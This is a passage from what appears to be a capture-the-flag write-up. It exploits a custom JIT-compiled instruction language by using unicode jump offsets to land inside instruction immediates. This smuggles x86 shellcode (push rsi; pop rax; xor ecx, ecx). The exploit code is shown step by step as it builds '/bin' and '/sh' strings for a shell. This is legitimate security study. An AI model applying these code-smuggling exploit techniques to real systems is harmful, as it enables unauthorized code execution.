 As we need more than 10000 jumps, we'll need to set `ecx` to something much larger. Setting it to zero provides us with the 2^64 jumps, because `ecx` is decremented before comparing it to zero. We'll use the `push rsi; pop rax` stub along with a `xor ecx, ecx` instruction to change it's value. Combining this with the unicode tricks discussed earlier, we get:
```
JMP(００6)
MOV(A, 22614) // push rsi; pop rax

JMP(００8)
MOV(A, 51505) // xor ecx, ecx

MOV(A, 0)
STR(A, 10)
MOV(A, 18699)
STR(A, 0)
LDR(A, 0)
ADD(A, 99999)
STR(A, 0)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 18524)
JNE(8) // Needed to be changed from 4 to 8 as we have 4 extra instructions at the beginning.

// Store the constructed value in eax and return so that it's printed. Makes checking for success easier.
LDR(A, 0)
RET()
```

We can repeat the same process to get `/sh` into position 1.
```
JMP(００6)
MOV(A, 22614) // push rsi; pop rax

JMP(００8)
MOV(A, 51505) // xor ecx, ecx

// Store /bin into position 0.
MOV(A, 0)
STR(A, 10)
MOV(A, 18699)
STR(A, 0)
LDR(A, 0)
ADD(A, 99999)
STR(A, 0)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 18524)
JNE(8)

// Store /sh into position 1.
MOV(A, 0)
STR(A, 10)
MOV(A, 45299)
STR(A, 1)
LDR(A, 1)
ADD(A, 99999)
STR(A, 1)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 68)
JNE(20)
```